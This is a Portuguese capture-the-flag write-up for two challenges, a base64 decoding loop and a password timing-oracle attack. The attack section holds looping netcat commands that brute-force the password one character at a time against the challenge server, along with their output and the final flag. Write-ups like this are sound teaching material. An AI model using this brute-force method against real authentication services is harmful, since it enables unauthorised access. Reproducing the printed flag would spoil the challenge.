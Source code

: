 # Programming
## Automation
O enunciado nos dava uma operação:  
w + w + w = 30, logo w = 10  
g + g + g = 24, logo g = 8  
w*g/2 = s, logo s = 40  

Dentro do arquivo flag.txt tinha um base64 enorme, provavelmente porque foi codificado várias vezes, reunindo as informações presumo que tenha sido codificado 40 vezes por conta do valor de s encontrado anteriormente, então fiz:
```
$ for i in {1..40}; do b=$(cat flag.txt); echo -n $b | base64 -d > flag.txt ; done
$ cat flag.txt
```

# Pwn
## Just in time
Esse desafio pedia que a gente fizesse conexão com um server: "nc imesec.ime.usp.br 9999", depois de conectado ele pedia um password, percebi que se colocasse
a letra certa ele incrementava o valor que aparecia na resposta
```
$ nc imesec.ime.usp.br 9999
Please input the password: q
false 0.0
$ nc imesec.ime.usp.br 9999
Please input the password: G
false 0.05
```
Então fui tentando uma por uma e quando achava concatenava ao que eu já tinha
```
$ for i in {0..~}; do echo -n "$i "; echo "G$i" | nc imesec.ime.usp.br 9999 ; done
(...)
R Please input the password: false 0.05
S Please input the password: false 0.1
T Please input the password: false 0.05

$ for i in {0..~}; do echo -n "$i "; echo "GS$i" | nc imesec.ime.usp.br 9999 ; done
0 Please input the password: false 0.1
1 Please input the password: false 0.1
2 Please input the password: false 0.15
3 Please input the password: false 0.1

$ for i in {0..~}; do echo -n "$i "; echo "GS2$i" | nc imesec.ime.usp.br 9999 ; done
(...)
U Please input the password: false 0.15
V Please input the password: false 0.15
W Please input the password: false 0.2
```

E fiz isso até encontrar a flag inteira 
GS2W_{P4ssw0RD_T1MinG_4TT4Ck!}

